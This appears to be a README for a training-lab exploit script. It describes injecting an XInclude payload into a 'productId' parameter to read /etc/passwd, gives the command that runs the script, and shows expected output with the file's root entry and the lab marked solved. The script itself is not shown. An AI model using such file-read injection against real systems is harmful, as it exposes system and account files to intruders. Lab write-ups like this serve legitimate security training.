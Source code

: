 # Hack Steps

1. Inject payload into 'productId' parameter to retrieve the content of /etc/passwd using XInclude specification
2. Extract the first line as a proof

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_xinclude_to_retrieve_files.py
```

# Expected Output

```
⟪#⟫ Injection point: productId
⦗1⦘ Injecting payload to retrieve the content of /etc/passwd using XInclude specification.. OK
⦗2⦘ Extracting the first line as a proof.. OK => root:x:0:0:root:/root:/bin/bash
🗹 Check your browser, it should be marked now as solved
```
